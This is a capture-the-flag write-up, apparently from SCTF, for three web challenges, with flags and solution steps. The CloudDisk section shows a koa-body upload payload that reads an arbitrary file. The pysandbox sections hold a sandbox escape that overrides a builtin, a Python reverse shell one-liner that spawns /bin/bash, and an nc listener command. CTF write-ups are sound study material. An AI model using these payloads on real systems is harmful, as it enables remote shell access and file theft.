 # Web

## CloudDisk

- Score: 250
- flag: SCTF{47cf9489d8832e44312dssxag6f88f45736e0e9c8}

```
https://github.com/dlau/koa-body/issues/75

http://120.79.1.217:7777/uploadfile

{
	"files": {
		"file": {
			"name": "jankincai",
			"path": "./flag"
		}
	}
}

Upload success ~, your fileId is here：3484b276cc6038b0378ddcf65880b04f

http://120.79.1.217:7777/downloadfile/3484b276cc6038b0378ddcf65880b04f
```

## pysandbox

- Score: 377
- flags: SCTF{N0_p4renth3s1s_2_RCe_1s_1nt3r3stlng}

> 题解

1. 生成字符集

```python
ss = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

vlist = []

for v in ss:
    if v not in vlist:
        print(v * 50, end="")
        vlist.append(v)


```

2. 覆盖ord和设置字符集

```python
# 修改 authorization.username = 生成字符集
cmd = '__builtins__.__dict__[ord.__name__]=request.authorization.username.count'
```

3. 反弹shell

服务器：nc -lvvp port

```python
cmd = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

4. 获取flag

```bash
cat flag
```

## pysandbox2

- Score: 500
- flags: SCTF{7ff31edadeadafc0f69d79fb4a36e7b7}

> 题解

1. 获取flag

```bash
# 前三步和pysandbox一样
cd /
./readflag
```